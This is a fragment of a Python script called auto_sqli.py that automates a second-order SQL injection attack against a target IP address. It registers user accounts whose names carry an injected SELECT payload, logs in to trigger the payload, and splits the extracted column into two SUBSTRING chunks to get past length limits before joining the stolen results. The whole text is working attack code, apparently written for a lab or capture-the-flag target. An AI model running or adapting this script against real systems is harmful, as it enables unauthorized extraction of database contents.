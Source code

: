 ```python
    
    return results

def modify_payload(payload, substring_range):
    select_pos = payload.upper().find('SELECT')
    from_pos = payload.upper().find('FROM')
    
    if select_pos == -1 or from_pos == -1:
        return payload
        
    select_clause = payload[select_pos:from_pos]
    rest_of_query = payload[from_pos:]
    
    columns = select_clause.replace('SELECT', '').strip().split(',')
    
    modified_columns = []
    for i, col in enumerate(columns):
        col = col.strip()
        if i == len(columns) - 1:  # Last column
            # Handle both simple columns and expressions
            col_content = col.strip('1234567890 ')  # Remove any numeric values
            if col_content:  # If there's a non-numeric column
                col = f"SUBSTRING({col}, {substring_range[0]}, {substring_range[1]})"
        modified_columns.append(col)
    
    modified_payload = payload[:select_pos] + 'SELECT ' + ', '.join(modified_columns) + ' ' + rest_of_query
    return modified_payload

def main():
    if len(sys.argv) != 3:
        print("Usage: python3 auto_sqli.py <IP_ADDRESS> <PAYLOAD>")
        sys.exit(1)

    ip = sys.argv[1]
    original_payload = sys.argv[2]
    
    first_payload = modify_payload(original_payload, (1, 16))
    second_payload = modify_payload(original_payload, (17, 32))

    print(f"[+] Creating user with first payload: {first_payload}")
    if create_user(ip, first_payload):
        print("[+] User created successfully. Attempting first login...")
        first_response = login_user(ip, first_payload)
        first_results = extract_results(first_response)
        
        print(f"[+] Creating user with second payload: {second_payload}")
        if create_user(ip, second_payload):
            print("[+] User created successfully. Attempting second login...")
            second_response = login_user(ip, second_payload)
            second_results = extract_results(second_response)
            
            print("\n[+] Combined results:")
            for i in range(len(first_results)):
                full_result = first_results[i]
                if i < len(second_results) and second_results[i].strip():
                    full_result += second_results[i]
                print(f"  - {full_result}")
        else:
            print("[-] Failed to create user for second query.")
    else:
        print("[-] Failed to create user. Check the payload or connection.")

```